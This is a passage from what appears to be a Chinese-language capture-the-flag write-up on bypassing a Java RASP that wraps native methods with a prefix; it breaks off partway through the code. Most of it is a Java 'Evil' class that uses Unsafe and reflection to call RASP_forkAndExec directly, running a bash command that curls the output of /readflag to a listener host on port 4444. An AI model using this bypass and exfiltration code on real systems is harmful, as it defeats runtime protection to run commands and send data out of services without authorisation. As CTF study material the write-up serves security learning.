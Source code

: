 但是在能执行 Java 代码的环境中, 使用这种方式并不能真正的防御命令执行, 我们只需要调用添加了 prefix 的 wrapped_foo 方法 (在题目中为 RASP_forkAndExec) 即可绕过 RASP 实现命令执行

```Java
package com.example;

import sun.misc.Unsafe;

import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class Evil {
    public Evil() throws Exception {
        Field theUnsafeField = Unsafe.class.getDeclaredField("theUnsafe");
        theUnsafeField.setAccessible(true);
        Unsafe unsafe = (Unsafe) theUnsafeField.get(null);

        Class clazz = Class.forName("java.lang.UNIXProcess");
        Object obj = unsafe.allocateInstance(clazz);

        String[] cmd = new String[] {"bash", "-c", "curl host.docker.internal:4444 -d \"`/readflag`\""};

        byte[][] cmdArgs = new byte[cmd.length - 1][];
        int size = cmdArgs.length;

        for (int i = 0; i < cmdArgs.length; i++) {
            cmdArgs[i] = cmd[i + 1].getBytes();
            size += cmdArgs[i].length;
        }

        byte[] argBlock = new byte[size];
        int i = 0;

        for (byte[] arg : cmdArgs) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
        }

        int[] envc = new int[1];
        int[] std_fds = new int[]{-1, -1, -1};

        Field launchMechanismField = clazz.getDeclaredField("launchMechanism");
        Field helperpathField = clazz.getDeclaredField("helperpath");

        launchMechanismField.setAccessible(true);
        helperpathField.setAccessible(true);

        Object launchMechanism = launchMechanismField.get(obj);
        byte[] helperpath = (byte[]) helperpathField.get(obj);

        int ordinal = (int) launchMechanism.getClass().getMethod("ordinal").invoke(launchMechanism);

        Method forkMethod = clazz.getDeclaredMethod("RASP_forkAndExec", int.class, byte[].class, byte[].class, byte[].class, int.class, byte[].class, int.class, byte[].class, int[].class, boolean.class);
        forkMethod.setAccessible(true);
        forkMethod.invoke(obj, ordinal + 1, helperpath, toCString(cmd[0]), argBlock, cmdArgs.length, null, envc[0], null, std_fds, false);
    }

    public byte[] toCString(String s) {
        if (s == null) {
```